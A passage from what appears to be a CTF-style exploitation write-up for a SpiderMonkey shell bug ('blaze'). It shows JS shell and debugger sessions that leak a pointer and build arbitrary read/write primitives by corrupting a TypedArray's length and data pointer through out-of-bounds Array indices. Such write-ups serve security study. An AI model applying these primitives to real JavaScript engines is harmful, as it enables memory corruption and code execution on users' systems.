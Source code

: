 ### Building an arbitrary memory access primitive

As per the above illustration, the first Array is 0x60 bytes long (including the inline buffer, assuming we instantiate it with at most 6 entries). The inline backing buffer starts at +0x30 (`6*8`). The backing buffer can hold 6 `js::Value` (another 0x30 bytes), and the target pointer to leak is at +0x18 (`3*8`) of the TypedArray. This means, that if we get the `6+3`th entry of the Array, we should have in return the `js!emptyElementsHeader` pointer encoded as a double:

```text
js> b = new Array(1,2,3,4,5,6)
[1, 2, 3, 4, 5, 6]

js> c = new Uint8Array(8)
({0:0, 1:0, 2:0, 3:0, 4:0, 5:0, 6:0, 7:0})

js> b[9]

js> b.blaze() == undefined
false

js> b[9]
6.951651517974e-310

js> load('..\\exploits\\utils.js')

js> load('..\\exploits\\int64.js')

js> Int64.fromDouble(6.951651517974e-310).toString(16)
"0x00007ff7f7ecdac0"

# break to the debugger

0:006> ln 0x00007ff7f7ecdac0
(00007ff7`f7ecdab0)   js!emptyElementsHeader+0x10 
```

For the read and write primitives, as mentioned earlier, we can corrupt the `DATA_SLOT` pointer of the TypedArray with the address we want to read from / write to encoded as a double. Corrupting the length is even easier as it is stored as a `js::Value`. The base pointer should be at index 13 (`9+4`) and the length at index 11 (`9+2`).

```text
js> b.length
420

js> c.length
8

js> b[11]
8

js> b[11] = 1337
1337

js> c.length
1337

js> b[13] = new Int64('0xdeadbeefbaadc0de').asDouble()
-1.1885958399657559e+148
```
